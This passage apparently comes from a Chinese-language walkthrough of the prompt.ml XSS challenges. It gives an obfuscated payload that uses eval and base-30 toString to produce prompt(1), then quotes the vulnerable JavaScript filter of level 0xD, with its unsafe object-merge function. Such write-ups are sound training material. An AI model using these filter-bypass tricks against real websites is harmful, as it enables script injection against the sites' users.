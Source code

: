 这关用到三个函数。

> parseInt() // 可以将字符串通过进制转换为数字
>
> toString() // 可以将数字通过进制转换回字符串
>
> eval() // 可以将字符串当作正常语句执行

直接给出测试

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210817173413085.png)

payload: 

```
eval(630038579..toString(30))(1) ==> prompt(1)
```

------

### 0xD

```js
function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}
```
